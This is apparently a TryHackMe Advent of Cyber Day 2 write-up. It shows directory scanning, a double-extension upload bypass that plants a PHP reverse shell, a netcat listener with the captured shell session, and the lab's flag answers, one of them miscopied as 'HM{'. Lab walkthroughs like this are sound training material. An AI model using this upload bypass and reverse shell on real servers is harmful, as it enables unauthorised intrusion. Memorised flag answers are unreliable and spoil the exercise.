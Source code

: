 After your heroic deeds regaining control of the control centre yesterday, Elf McSkidy has decided to give you an important job to do.

"We know we've been hacked, so we need a way to protect ourselves! The dev team have set up a website for the elves to upload pictures of any suspicious people hanging around the factory, but we need to make sure it's secure before we add it to the public network. Please perform a security audit on the new server and make sure it's unhackable!"

You listen to the briefing and accept the task, pressing the deploy button to start the server as you do so.

McSkidy once again gives you a dossier of useful information to help you with your task, which you read as you wait for the server to boot:

----------
At the bottom of the dossier is a sticky note containing the following message:

For Elf McEager:
You have been assigned an ID number for your audit of the system: ODIzODI5MTNiYmYw . Use this to gain access to the upload section of the site.
Good luck!

You note down the ID number and navigate to the displayed IP address (10.10.190.12) in your browser.





- What string of text needs added to the URL to get access to the upload page?
```
?id=ODIzODI5MTNiYmYw
```
- What type of file is accepted by the site?
```
image
```
```
<input type=file id="chooseFile" accept=".jpeg,.jpg,.png">
```
- In which directory are the uploaded files stored?
```
/uploads/
```
```
dirb http://10.10.190.12
---- Scanning URL: http://10.10.190.12/ ----
==> DIRECTORY: http://10.10.190.12/assets/                                     
+ http://10.10.190.12/cgi-bin/ (CODE:403|SIZE:217)                             
+ http://10.10.190.12/favicon.ico (CODE:200|SIZE:1150)                         
==> DIRECTORY: http://10.10.190.12/noindex/                                    
==> DIRECTORY: http://10.10.190.12/uploads/     
```
- What is the flag in /var/www/flag.txt?
```
HM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
```
```
cp php-reverse-shell.php php-reverse-shell.png.php

downloads@ubuntu:~$ nc -nlvp 1234                                                    
Listening on 0.0.0.0 1234                                                            
Connection received on 10.10.190.12 53206                                            
Linux security-server 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 202
0 x86_64 x86_64 x86_64 GNU/Linux                                                     
 15:43:00 up 12 min,  0 users,  load average: 0.00, 0.11, 0.19                       
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                  
uid=48(apache) gid=48(apache) groups=48(apache)                                      
sh: cannot set terminal process group (853): Inappropriate ioctl for device          
sh: no job control in this shell                                                     
sh-4.4$ id                                                                           
id                                                                                   
uid=48(apache) gid=48(apache) groups=48(apache)                                      
sh-4.4$ ls        

sh-4.4$ cat /var/www/flag.txt
cat /var/www/flag.txt 


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying you
rself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar f
or his invaluable design lessons, without which the theming of the past two websites 
simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================

```
